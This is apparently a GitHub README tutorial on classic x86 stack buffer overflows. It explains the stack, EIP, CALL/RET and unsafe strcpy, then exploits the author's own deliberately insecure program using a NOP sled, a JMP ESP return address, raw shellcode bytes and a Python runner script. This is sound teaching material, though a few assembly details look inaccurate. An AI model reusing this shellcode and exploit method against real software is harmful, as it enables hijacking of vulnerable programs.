





# Smashing the Stack by e41c m.

## TLDR: 

What's Included:

1. Pre-compiled vulnerable executable
2. Python 2.7 script to help exploit it
3. Visual Studio Project for executable

Run the python script to exploit a simple vulnerable C++ program (code below)

It will exploit the program by crafting a special input string that takes over the processor and instead runs code from the input string rather than the programs own instructions.

This occurs a lot and is one of the most common methods of taking control of a server, gaining root access on machine, jailbreaking devices, etc.

Tested on Python 2.7

In Python 3, strings are stored as unicode, not ASCII so this won't work.

`python runner.py`

The script needs to be customized with a return address for `JMP ESP` that works on your machine.

Since we all have different versions of DLL files and stuff like that, you must customize the return address for your machine.


## What is a Buffer Overflow Exploit?

In ASM and many C/C++ implementations, if you allocate an array and add more items to the array that it can contain, it will let you. In ASM, any memory (belonging to your program) can be accessed and manipulated by assembly instructions.

Many programs take in user input in the form of strings (arrays of BYTEs). It is very common to need to make a copy of a string and store it elsewhere for further processing. Maybe you have a function that takes a string and returns a capitalized version.

Given a vulnerable program, a malicious user can enter certain input, to specifically overwrite key areas of memory such that your program is hijacked so that instead of running its own code, it runs code that the user encoded into their malicious string.

## Organization of Memory

| Contents                                | Memory Addresses |
| --------------------------------------- | ---------------- |
| .....                                   | 0000000          |
| TEXT - Your programs code               | ...              |
| DATA - Uninitialized + Initialized data | ...              |
| STACK                                   | ...              |
| .....                                   | FFFFFFFF         |


## The Stack

The stack is an area of memory where you can PUSH things and POP things.

The stack grows downward towards the lower memory locations.

The top of the stack faces the lower memory addresses while the bottom of the stack faces the higher memory addresses.

What that means is that when you add a new item to the stack, its memory location is smaller than the item under it.

For example imagine PUSHing three bytes 'a', 'b', 'c' in that order. Memory might look like this.

| Stack Content | Memory Location |
| ------------- | --------------- |
| 'c'           | FFAABB00        |
| 'b'           | FFAABB01        |
| 'a'           | FFAABB02        |

Notice the location for 'c' has a smaller value than 'a'.

## The Forbidden Register (EIP)

The EIP register holds the memory location of the next instruction to execute.

| Location | Instruction               |
| -------- | ------------------------- |
| FFAAAA04 | mov EAX, 10 **(current)** |
| FFAAAA08 | mov ebx, 2                |
| FFAAAA0C | mov ecx, 2                |

If `mov EAX, 10 ` is the last instruction to have executed then EIP holds FFAAAA08 since that is the memory location of the next instruction. The CPU then pulls the address at EIP, looks at the instruction at that address, then executes it.

<u>Remember the first rule of EIP:</u>
**YOU DON'T TOUCH EIP.** *(directly)*

## CALL / RET

CALL and RET are really simple.

Imagine you had a procedure funky and a main:

```
funky PROC
	mov eax, 99
	ret
funky ENDP

main PROC
	call funky
	mov ebx, 10
	...
main ENDP
```

any time you call that procedure, EIP would just be modified so that execution is redirected to that line of ASM. The ret instruction takes you back to where you were before, by restoring EIP to what it should have been before you called it.

| human | Memory Location | Code                       |
| ----- | --------------- | -------------------------- |
| funky | FFAABB00        | mov eax, 99                |
|       | FFAABB04        | ret                        |
| main  | FFAABB05        | call funky / call FFAABB00 |
|       | FFAABB09        | mov ebx, 10                |


When you `call funky` EIP would then get loaded with FFAABB00. Then the procedure code would execute then you hit `ret`.  Since after the procedure call we want to do `mov ebx, 10`, the call instruction pushes `FFAABB09` to the stack. The `ret` command will POP from the stack and move what it popped into register EIP.  After the procedure returns in this example, EIP would contain FFAABB09 so that execution can resume under the procedure call.

**Key takeaway: The memory location of where to go back to when a  procedure finishes is stored on the STACK by the CALL instruction.**


## Local Variables

Local variables exist on the stack.

The following C code

```c++
void funk(){
  int a;
}
```

has a local variable.


The line `int a;` is compiled to `sub esp, 4` in assembly. Four bytes are reserved since an integer in C/C++ is a DWORD (4 bytes) in assembly.

What? I know I know. Hold your horses. You see it makes a lot of sense. ESP points to the top of the stack. So if I just push the 'top' of the stack four bytes down, I've reserved some space to store something in the middle.

Why subtraction? Well the stack grows towards the smaller memory addresses, so by subtracting I actually make the stack bigger by 4 bytes. 

So by moving the top of the stack over, I reserve space in the middle for things. That space is the space for variable a. Provided I know where the location is, I can always access it.

This is how C/C++ implement local variables.

## Local arrays and the Stack

Consider the following C code.

The following C code

```c++
void funk(){
  char str[] = "hello";
  int b=4;
}
```

with two local variables. 

Here is what that would look like on the stack.

| Greedy | Human       | Memory Location | Stack |
| ------ | ----------- | --------------- | ----- |
| str[0] | str[0]      | FFAACC00        | 'h'   |
| str[1] | str[1]      | FFAACC01        | 'e'   |
| str[2] | str[2]      | FFAACC02        | 'l'   |
| str[3] | str[3]      | FFAACC03        | 'l'   |
| str[4] | str[4]      | FFAACC04        | 'o'   |
| str[5] |             | FFAACC05        | 0     |
| str[6] | b (4 bytes) | FFAACC06        | 00    |
| str[7] |             | FFAACC07        | 00    |
| str[8] |             | FFAACC08        | 00    |
| str[9] |             | FFAACC09        | 04    |


### "Memory knows no bounds" -Gandalf

Ok he didn't say that. But! It is entirely possible in certain versions of C/C++ to overwrite the contents of variable **b** by simply being greedy about **str**. You can access any memory location with the right index relative to the starting memory address of str. Any memory location can be accessible by going the right number of bytes into or away from location str. Therefore we can overwrite the values for variable **b** by overwriting str[6], str[7], str[8], and str[9].

**But those aren't part of the string, you can't access those ?!?!?**

Unfortunately, on many implementations of C/C++ you can.


## C/C++ Functions / Function Calls

The following C code

```c++
void funk(){
  int a;
  a=9;
}
```

has a local variable.

It compiles to:

```
PUSH EBP
MOV EBP, ESP

;an int is a DWORD and so 4 bytes is allocated on the stack
SUB ESP, 4 
MOV DWORD PTR [ebp + 4], 9

MOV ESP, EBP
POP EBP
RET
```


**<u>Whats with all the EBP stuff?</u>**

Good question. The EBP register is used to store what ESP was before you starting messing around with the stack (because your program might make local variables and make it bigger). EBP then stores the value of what ESP was before the function was called.


**<u>Breakdown</u>**

* EBP is saved to the stack
* Then ESP is backed up into EBP. It is backed up into a register so it can be used for addressing the local variables.
* Then the space for the variable is allocated. 
* 9 is moved into the reserved space using EBP to index
* Then  ESP is restored
* Then EBP is restored
* Function returns by popping return value from stack into EIP


**<u>Inside the heart of a function (forget all the setup and teardown)</u>**

Register ESP holds the memory location of the END of the stack.

Register EBP holds the value of ESP before your function messed with it. Your stack may continue to grow inside a function (local variables, push/pop) and so ESP might change.


**<u>What memory looks during funk() call right after variable is initialized:</u>**


```
PUSH EBP
MOV EBP, ESP

SUB ESP, 4 ;an int is a DWORD and so 4 bytes is allocated on the stack

POP EBP
RET
```

|                  |          |          | STACK       |
| ---------------- | -------- | -------- | ----------- |
| variable a       | ESP ---> | FFAABB00 | 00 00 00 09 |
| this was pushed  | EBP----> | FFAABB04 | ebp value   |
| CALL pushed this |          | FFAABB08 | ret address |


The last thing on the stack is the variable, thats why ESP points there. EBP points to the beginning of the STACK use in the function. First thing pushed was EBP.


## The Attack / strcpy

If at any point a program allows the user to input a string, many times that string is copied to the destination **<u>WITHOUT LOOKING THAT THERE IS SPACE FOR IT.</u>**

This happens when a program uses the **strcpy** method. It is unsafe. Never use it!!!!

When this happens, memory that did not belong to the string is overwritten. In this example, the 4 bytes following the string on the stack is the value of EBP (gets pushed onto the stack by the resulting assembly).

The next 4 bytes after that is the value for the return address for where to go when **bad()** has finished executing. The return address is supposed to point to the assembly code that would show "today is the best".


```c++
void bad(char *input){
   char small[5];
   //copies input string to small string
   strcpy(small, input);
}

void main(){
  bad("ohnothisisbad");
  cout << "today is the best"<<endl;
}
```


It is possible then, to craft a string to input into the **bad()** function that specifically overwrites the return address with another return address that points somewhere unintended.

If the program allows for user input into **bad()** then the user could craft a malicious string that encodes assembly language instructions. Then the user could overwrite the area of memory storing the return address with the memory location of the string they just type....

therefore, executing their input string as valid assembly language.

## Overwriting the return address

`bad("AAAA")` this does not cause a problem, the string "AAAA" gets copied into the buffer where it fits nicely.

`bad("AAAAB")` this does not cause a big problem, the string "AAAAB" gets copied into the buffer where it overwrites the null-terminator of the string with 'B'

`bad("AAAABCC")` causes a problem. the value of EBP on the stack is partially overridden by two "C". 

`bad("AAAABCCCC")` causes a problem. the value of EBP on the stack is completely overridden and has value 43434343 in hex. "C" is represented by 43 in hex.

`bad("AAAABCCCCDDDD")` causes a huge problem. the value of the return address is overwritten. that means when bad() finishes executing it will try to execute the code at memory location 44444444. 44 is how you represent 'D' in hex.

## Customizing the return address

Now knowing we can overwrite the return address how do we get it to overwrite the return address with a custom memory location of our choosing.

If we want to execute the instruction at memory location 41345678 then we need to overwrite the return address with 78 56 34 41 in memory (remember little endian format).

Then I look up in an ASCII chart the letters that go with the target bytes.

| Hex  | ASCII |
| ---- | ----- |
| 78   | 'x'   |
| 56   | 'V'   |
| 34   | '4'   |
| 41   | 'A'   |


Now I can overwrite the return address to go to execute the code at memory location 41345678 with a simple call to `bad("AAAABCCCCxV4A")`

**<u>WHAT IF THERE WAS VIRUS CODE AT MEMORY LOCATION 41345678??</u>**

If there was, it would now be executed and your machine would be annihilated.


## Inserting Virus Code


If you open you program in a debugger (OllyDbg), you can find the memory location where the `small` array begins in function `bad()`. You can customize the return address to execute code beginning at that memory location utilizing the trick above.

Then, instead of inserting "AAAABCCCC" you can insert the bytes that represent machine code instructions (encoded as a string).


# Walkthrough

## New Example Code

Here is some example code that takes a command line argument and copies it to the **temp** string.

I have compiled it with the proper settings in Visual Studio to be **insecure**. Nowadays, Visual Studio bloats your executable with stuff so that it can check at run-time for people exploiting these bugs.


```c++
#pragma check_stack(off)

#include <string.h>
#include <stdio.h> 
#include <iostream>
using namespace std;

void dumb(char * word)
{
	char temp[500];
	strcpy(temp, word);
	cout << temp;
}
int main(int argc, char* argv[])
{
	dumb(argv[1]);
	return 0;
}
```


We can run the code on the command line and give it a string to copy like this:

`program.exe thisisatestitshouldnotcauseproblems`

Problems will only be caused when we put in a string that is 504 - 508+ characters in length, since that would overwrite the cached EBP on the stack and the cached return address. 


## Exploiting

We can exploit this program by filling the string with 508 things and overwriting the return address.

500 things would not cause a problem. 504 things would overwrite the base pointer, 508 things overwrites the return address stored on the stack.


### Example Virus Code

The following bytes are virus code that I have created. It is not malicious. Trust me. I made it myself.

```
\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7
```


## Attempt 1 

In OllyDBG I run the application and set the command line parameter to 507 "A"s. 

You set command line arguments by going to Debug -> Arguments.


The program crashes. Notice EBP has been overwritten and EIP was partially overwritten. (it is 00414142 because it tried to execute 00414141 then incremented EIP to go to the next instruction)

We can try to overwrite EIP with exactly the memory location of our input string. If we can do that then we can replace our 'A's with virus code.



Here is memory:




Notice the memory address where the string of 41s start!

We could overflow the buffer with 504 things (some of those things being our virus code) and making sure the last four ASCII characters represent the memory location 00 19 FC B8. 

So 504 things then `\xB8\xFC\x19\x00` (remember little endian). 

## Malicious String

Note the instruction NOP or No-op is encoded as \x90 in hex.

So we would make a string from the following HEX.

First payload (113 bytes):

`\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7`

Then filler (391 bytes):

`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90`

Then our return address `0019FCB8` in little endian hex (4 bytes):

`\xB8\xFC\x19\x00`


If we converted all that hex into a massive ASCII it would work ON SOME COMPUTERS.

Generally not windows.

## The Problem

That last stupid byte has \x00. That hex terminates the string early. AGHHHH.

It is a null terminator. Our stupid memory address that we have been working so hard to get to has 00 in it and we cannot represent that in ASCII because in ASCII 00 means end the string. GAHHHHH.

### JMP ESP Trick

Instead of returning into our string. We are gonna do a trick.

We are going to overflow the buffer with junk just enough to overflow the return address.

Then, we are going to overflow it more with our malicious virus code.

Why? Because ESP currently points to the location right after our string!

Say What?



Go look at the ESP register above and look what is on that line.

There is stuff. But it comes after the 507 "41"s.

If we put the payload after 508 things, we will put the payload right into memory location 0019FEB4.

Ok, but why is that significant?

Since ESP has the number 0019FEb4 in it, we don't need to write it in ASCII. We are trying to avoid encoding a string with a return address of 0019FEB4 because it has a null byte in it and would end our string early.

Since ESP now has the number where we want to return to, if we could only `JMP ESP` that would teleport us right to our payload and ignite our virus code.

Too bad we can't just `JMP ESP` because the whole thing we are trying to do is get our dang custom assembly to execute.

### JMP'ing ESP anyway!

To `JMP ESP` is easy:

1. We find somewhere in memory that has the `JMP ESP` command in it.

2. We write down the memory location

3. If it does not have a null byte then we use that memory location as our return address

4. if it does, we go back to step 1 and find another memory location with `JMP ESP` in it.

   ​

All of your programs code probably has 00 as its starting memory location. So thats wack.

Instead, look for it in loaded DLL files!

Lots of programs load helper libraries in the form of DLL files. Lets use one of those and borrow it to execute our JMP ESP command.

Since these files are loaded in memory, you can overwrite the return address to execute any line of code in those DLL files.



The base address for the EXE is at 00400000, no good.

So lets use a line of code in KERNELBASE.dll since its base address starts at 74EE0000.

1. Double-click KERNELBASE.dll

2. Scroll through the code until you find a `JMP ESP` line of code.

3. Write down the memory address if it does not have a 00, otherwise find another.

4. (You can also search with CTRL-F instead of scrolling)

   ​

Woooo! I found one at `0FFF92ED`


### Final Exploit

Now, we have all the ingredients to craft our malicious string:

1. 504 characters representing nothing, `NOP` or `\x90` in hex
2. Our return address in hex (little endian): `\xED\x92\xff\x0f`
3. Our payload: `\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7`


We will use a Python script to help us type all this mess for us.


```python
import subprocess

#reverse a string in python
#we need to reverse the bytes
#of the return address
#little endian format
def reversed_string(a_string):
    return a_string[::-1]

return_address = "\x0f\xff\x92\xED"
payload = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7"

#504 bytes to overflow string and byte pointer
exploit = "\x90" * 504

#four more bytes with return address
exploit += reversed_string(return_address)

#add payload
exploit += payload

#run file with exploit string as argument
subprocess.call(['bufferOverflow.exe', exploit])
```


## Final Result

Muahahhaha I have hacked your computer.

My virus code simply encodes the machine code instructions to display a MessageBox.

Don't worry, you are safe.




### What the script does

1. Makes a string with our 504 filler bytes of `NOP`

2. Concatenates the return address (but reversed - little endian)

3. Concatenates the virus code

4. Executes the bufferOverflow.exe with the malicious string as a command line argument

   ​

### Finding More Virus Code

You can find more virus code (not necessarily malicious) at https://www.exploit-db.com/shellcode/

You can use your own payload instead of mine!


### Creating Virus Code

You can  take any assembly program and if you can convert it to bytes, you can use it as virus code.

Google: Writing shell code


